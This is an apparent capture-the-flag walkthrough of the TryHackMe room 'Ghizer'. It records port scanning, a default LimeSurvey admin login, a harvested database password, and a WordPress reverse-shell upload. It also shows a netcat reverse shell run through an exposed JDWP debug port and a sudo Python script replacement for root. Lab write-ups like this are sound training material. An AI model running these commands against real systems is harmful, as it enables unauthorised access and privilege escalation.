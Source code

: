 # 51 - Ghizer (java-rmi/java rmi, JDWP Debug Port exploitation)

Room Link --> [https://tryhackme.com/room/ghizerctf](https://tryhackme.com/room/ghizerctf)

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
nmap -Pn -n -v 10.10.160.244 -p- -sV

Not shown: 65524 closed tcp ports (conn-refused)
PORT      STATE    SERVICE    VERSION
21/tcp    open     ftp?
80/tcp    open     http       Apache httpd 2.4.18 ((Ubuntu))
443/tcp   open     ssl/http   Apache httpd 2.4.18 ((Ubuntu))
18002/tcp open     java-rmi   Java RMI
35797/tcp open     java-rmi   Java RMI
44993/tcp open     tcpwrapped
```
{% endcode %}

#### Dirsearch enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
dirsearch -u http://10.10.160.244 -x 403 -w /usr/share/dirb/wordlists/common.txt -t 500 -x 503

/assets
/admin
/application
/docs
/framework
/installer
/index.php
/locale
/plugins
/server-status
/upload
/themes
/tmp
/tests
# all dead ends :(
```
{% endcode %}

The `/admin` dir. Googled default password for LimeSurvey and got `admin : password` .

And it worked.

<figure><img src=".gitbook/assets/image (10) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Initial Access

Search for an exploit for the specific version on google and got: [https://www.exploit-db.com/exploits/46634](https://www.exploit-db.com/exploits/46634)

And we get access to a very limited shell.

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Search for 'config.php' file.

{% code overflow="wrap" lineNumbers="true" %}
```bash
$ find / -type f -iname 'config.php' 2>/dev/null

$ cat /var/www/html/limesurvey/application/config/config.php
```
{% endcode %}

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

`Anny :  P4$W0RD!!#S3CUr3!` .

#### Wordpress enum

Goto the webserver on port 443: `https://10.10.160.244/` - we get the wordpress site, clicking on the login, and we get redirected to the login panel.

<figure><img src=".gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can upload a reverse shell in zip format in order to get a rev shell.

<figure><img src=".gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Priv Esc to Veronica

We use “**linpeas.sh**” script and we enumerated connections in use of **ghidraDebug** with **Veronica** user.

<figure><img src="https://1.bp.blogspot.com/-11q8WG15zDo/X7irvP-1DRI/AAAAAAAAq30/ETruuKRub1kPHc-TLgbk14heRi0lMvw1gCLcBGAsYHQ/s16000/13.png" alt=""><figcaption></figcaption></figure>

We enumerate **GhidraDebug** service internal on port **18001**.

<figure><img src="https://1.bp.blogspot.com/-kjnBRfJ-I30/X7ir4R_RviI/AAAAAAAAq4A/HSOZQFjbyegl_ImA-Fw9LRI12_PXzRk6wCLcBGAsYHQ/s16000/14.png" alt=""><figcaption></figcaption></figure>

We exploit it from the victim box.

{% code overflow="wrap" %}
```bash
jdb -attach 127.0.0.1:18001
classpath
classes
stop in org.apache.logging.log4j.core.util.WatchManager$WatchRunnable.run()
# wait for a "Logj2-Tf" terminal.
print new java.lang.Runtime().exec("nc.traditional 10.18.88.214 9001 -e /bin/sh")

# setup nc listener.
nc -nvlp 9001
```
{% endcode %}

<figure><img src=".gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Priv Esc to Root

`sudo -l` - there is the `env-reset` also, meaning we can create new env path for files.

<figure><img src=".gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can execute this cmd as root. We cant modify the file but we can delete it and replace it with a modified one to get root.

{% code overflow="wrap" %}
```bash
veronica@ubuntu:~$ rm -rf /home/veronica/base.py
veronica@ubuntu:~$ echo 'import pty;pty.spawn("/bin/bash")' > base.py
veronica@ubuntu:~$ sudo -u root /usr/bin/python3.5 /home/veronica/base.py
root@ubuntu:~# 
```
{% endcode %}

<figure><img src=".gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Done !

